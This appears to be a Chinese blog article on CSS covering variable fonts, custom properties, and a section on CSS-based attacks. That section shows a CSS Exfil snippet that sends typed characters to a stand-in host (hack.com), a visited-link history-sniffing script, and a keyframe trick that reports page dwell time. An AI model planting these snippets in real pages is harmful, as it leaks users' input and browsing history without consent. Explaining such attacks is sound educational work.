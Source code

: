 # 🎨 有关 CSS 的一些极有趣的东西

## 灵活字体

<!-- > The future is variable, though the future is in the variable -->

灵活字体（Variable fonts）是一种包含字体元信息如字宽、字重（甚至自定义形变）的字体的字体方案。主要通过使用 CSS `font-variation-settings` 属性配置变形轴，来达到使字体形变的效果，如：

```CSS
h2 {
  font-size: 64px;
  font-variation-settings: 'wght' 375;
}

```

一张图展示其迷人之处：

![Variable fonts](http://blog-image.obs.cn-east-3.myhuaweicloud.com/mgear/image/2019-11-21-02-03-38.gif)

这里有一个展示其强大排版能力的示例页面：

<p class="codepen" data-height="265" data-theme-id="dark" data-default-tab="result" data-user="jpamental" data-slug-hash="wvwgGLK" style="height: 265px; box-sizing: border-box; display: flex; align-items: center; justify-content: center; border: 2px solid; margin: 1em 0; padding: 1em;" data-pen-title="Layout variations, part deux">
  <span>See the Pen <a rel="nofollow" href="https://codepen.io/jpamental/pen/wvwgGLK">
  Layout variations, part deux</a> by Jason Pamental (<a rel="nofollow" href="https://codepen.io/jpamental">@jpamental</a>)
  on <a rel="nofollow" href="https://codepen.io">CodePen</a>.</span>
</p>
<script async src="https://static.codepen.io/assets/embed/ei.js"></script>

啊，所以说要是不会设计还是做不出漂亮页面（狗子脸）

## CSS 攻击

也许大部分玩家都了解或熟悉 CSRF、XSS 之类的攻击方式及防御方式，不过你听说过这些使用 CSS 进行攻击的方法么？

### 输入检测

CSS Exfil 漏洞攻击意味着攻击者可以使用选择器确定你在页面输入的按键再通过 CSS 请求将其记录，如下代码：

```CSS
input[value^=a]{
    background-image: url(http://hack.com/a);
}
input[value^=b]{
    background-image: url(http://hack.com/b);
}
/* ... */
input[value^=z]{
    background-image: url(http://hack.com/9);
}
```

当你在输入框中输入字母的同时，浏览器将自动向攻击者指定的地址发送请求，你的字母输入顺序也就随之被记录下来了，结合 CSS 中其它特征，通过 CSS Exfil 攻击可以直接推断出一些输入简单的密码，凭借分析，也能推测出更加复杂的密码。

这里有一个测试网址可以用以重现与玩耍：[CSS Exfil 攻击测试](http://eaea.sirdarckcat.net/cssar/v2/)

### 历史记录检测

现在我们丢弃刚才提到的 CSS 选择器，转而使用 CSS 和浏览器打交道中所用到的其它东西，比如说：我们都知道在浏览器中点击过某个链接后，那个链接就会变色——对的，没错，问题就在这儿——通过向页面插入大量超链接，可以通过标签的颜色就能判断你有没有浏览过这些链接，从而绕过浏览器限制。代码类似以下：

```js
const link = document.createElement('a')
link.href = 'www.baidu.com'
document.body.appendChild(link)
const color = document.defaultView
  .getComputedStyle(link, null)
  .getPropertyValue('color')

const isView = color === 'rgb(0, 0, 255)'
```

想看源代码及或寻找更深入的讨论，请点这儿：[i-know-where-youve-been](https://blog.jeremiahgrossman.com/2006/08/i-know-where-youve-been.html)

### 用户轨迹追踪

了解过 CSS Exfil 后，我们大概都能想到通过纯 CSS 代码来追踪用户鼠标点击、甚至是用户鼠标轨迹的方案，但是关于用户在页面的停留时长，你有没有思路呢？

以下是一种可能的解决方案：

```CSS
@keyframes time-count {
  0% {
    background-image: url('track.php?duration=1s');
  }
  1% {
    background-image: url('track.php?duration=2s');
  }
  /* ... */
  100% {
    background-image: url('track.php?duration=100s');
  }
}
#duration:hover::after {
  animation-name: time-count;
  animation-duration: 100s;
}
```

### 其它攻击手段

这里有一个不全的清单：

- [Side-channel Attack](https://github.com/evonide/misc)
- [Text Reader](https://bugs.chromium.org/p/chromium/issues/detail?id=543078)
- [Scrollbar Attack](https://github.com/cgvwzq/css-scrollbar-attack)

欢迎各位在评论区补充（在此先谢过大佬们）

## CSS 变量

CSS 变量（官方叫做 Custom Properties，即自定义属性）是一个意义于作用同样强大的东西，它给 CSS 带来了原生层面意义上的代码模块化。我们可以通过浏览器 API 与 JavaScript 进行交互，使得其功效进一步扩大，同时提高 CSS 的可读性及维护性。通过给 CSS 变量赋任意有意义的值，并交由 calc 函数计算，可以产生具有可读性的组合值。比如下面这个例子：

```css
.my-component {
  --theme-color: red;
  --card-width: 30px;
}
.my-component .title {
  color: var(--my-component-theme-color);
}
.my-component .card-container {
  width: calc(var(--my-component-card-width) * 3);
  border: solid 1px var(--my-component-theme-color);
}
```

我们给组件（my-component）定义了主题色及卡片宽度两个变量，这两个变量可以在作用范围内任意使用及被改造。这两个变量也意味着组件的样式向外部暴露了两个可供修改的入口。一般而言，我们可以使用这两种方法继续扩展代码，以达到修改变量的目的：

```html
<link rel="stylesheet" href="my-component.css" />
<style>
  .my-component {
    --theme-color: gray;
  }
</style>
```

```JavaScript
const $con = document.querySelector('.my-component')
$con.style.setProperty('--theme-color', 'gray')
```

这里有一个能展示 CSS 变量超能力的极具吸引力的例子：

<p class="codepen" data-height="265" data-theme-id="dark" data-default-tab="css,result" data-user="danwilson" data-slug-hash="BRdJVZ" style="height: 265px; box-sizing: border-box; display: flex; align-items: center; justify-content: center; border: 2px solid; margin: 1em 0; padding: 1em;" data-pen-title="Single Div Accordion (Animated with CSS Variables)">
  <span>See the Pen <a rel="nofollow" href="https://codepen.io/danwilson/pen/BRdJVZ">
  Single Div Accordion (Animated with CSS Variables)</a> by Dan Wilson (<a rel="nofollow" href="https://codepen.io/danwilson">@danwilson</a>)
  on <a rel="nofollow" href="https://codepen.io">CodePen</a>.</span>
</p>
<script async src="https://static.codepen.io/assets/embed/ei.js"></script>

不知道你酸了没有，反正我是酸了。
